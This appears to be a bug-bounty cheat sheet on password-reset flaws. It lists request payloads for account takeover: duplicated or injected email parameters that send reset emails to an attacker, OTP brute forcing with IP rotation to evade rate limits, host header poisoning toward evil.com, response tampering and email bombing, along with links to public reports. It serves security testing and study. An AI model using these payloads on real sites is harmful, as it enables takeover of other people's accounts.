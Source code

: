 ## Password Reset Flaws

### 1. Account Takeover: Password Reset With Manipualating Email Parameter

```
POST /reset
[...]
1 email= victim@gmail.com&email=attacker@gmil.com
or
2 email= victim@gmail.com%20email=attacker@gmil.com
or
3 email= victim@gmail.com |email=attacker@gmil.com
or
4 email= "victim@gmail.com%0d%0acc:attacker@gmil.com"
or
5 email="victim@mail.com","attacker@mail.com"
or
{"email":["victim@mail.tld","atracker@mail.tld"]}
or
6 email= victim@gmail.com&code= my password reset token
```
    https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be
    https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/
    https://twitter.com/HusseiN98D/status/1254888748216655872
    https://twitter.com/HusseiN98D/status/1254888748216655872/photo/1

### 2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$

```
 *Use IP-Rotator on burpsuite to bypass IP based ratelimit.

### 3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
    https://hackerone.com/reports/226659
    https://hackerone.com/reports/167631
    https://www.acunetix.com/blog/articles/password-reset-poisoning/
    https://pethuraj.com/blog/how-i-earned-800-for-host-header-injection-vulnerability/
    https://medium.com/@swapmaurya20/password-reset-poisoning-leading-to-account-takeover-f178f5f1de87


### 4. Full Account Takeover via Changing Email And Password of any User through API Parameters
```
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})

```
Reference

    https://medium.com/@adeshkolte/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240


### 5.Response manipulation: Replace Bad Response With Good One
```
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)

Change Response

HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)
```
    https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3

### 6.No Rate Limiting: Email Bombing

    Start the Burp Suite and Intercept the password reset request
    Send to intruder
    Use null payload

    https://hackerone.com/reports/280534
    https://hackerone.com/reports/794395
    
### 7.Password Reset Token Leak Via Referrer
    https://hackerone.com/reports/342693
    https://hackerone.com/reports/272379
    https://hackerone.com/reports/737042
    https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a
    https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1

### 8. Using Expired Token
Check if the expired token can be reused

### 9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user
Use Burp Sequencer to find the randomness or predictability of tokens.
> [For Example](https://medium.com/bugbountywriteup/how-i-discovered-an-interesting-account-takeover-flaw-18a7fb1e5359)
